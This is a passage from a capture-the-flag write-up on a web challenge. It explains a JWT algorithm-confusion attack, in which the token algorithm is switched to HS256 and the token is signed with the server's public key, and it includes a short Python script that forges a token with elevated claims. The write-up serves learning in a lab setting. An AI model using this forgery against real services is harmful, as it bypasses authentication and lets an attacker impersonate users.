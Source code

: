 ![web](/assets/img/TJCTF20/web_11.png)

This means there is a private RSA key on the server used to sign fresh tokens. As we're given the public key, we can try to forge new custom tokens by changing token's algorithm to _HS256_ and trying to sign tokens using the public key. If it works, the backend will try to validate the token using the public key as the HS256 algorithm instead.
Reference : [Hacking JSON Web Token (JWT)](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6){:target="_blank"}

```python
#!/bin/python
import jwt
import hashlib

public = open('pubkey.pem', 'r').read()
data = {
        "user": True,
        "is_omkar": True,
        "money": 150,
        "horses": ["TEST_HORSE"]
}
print(jwt.encode(data, key=public, algorithm='HS256').decode('utf-8'))
```

And yeah, it worked! We can forge custom tokens.
